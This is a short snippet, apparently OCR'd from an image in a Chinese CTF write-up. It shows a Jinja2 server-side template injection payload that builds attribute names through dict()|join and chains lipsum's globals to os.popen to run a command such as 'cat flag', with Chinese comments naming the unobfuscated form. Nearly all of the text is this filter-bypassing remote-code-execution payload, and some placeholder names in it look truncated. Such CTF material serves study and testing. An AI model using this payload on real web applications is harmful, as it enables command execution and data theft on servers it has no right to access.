 ```objectivec
{% set read=dict(read=a)|join %}
 
{% print(lipsum|attr(globals)|attr(geti)(o)|attr(po)(cmd)|attr(read)()) %}
 
这里原型是
 
lipsum.__globals__.getitem[os].popen(cat flag).read()
 
类似于这种
```

真是一个恐怖的ssti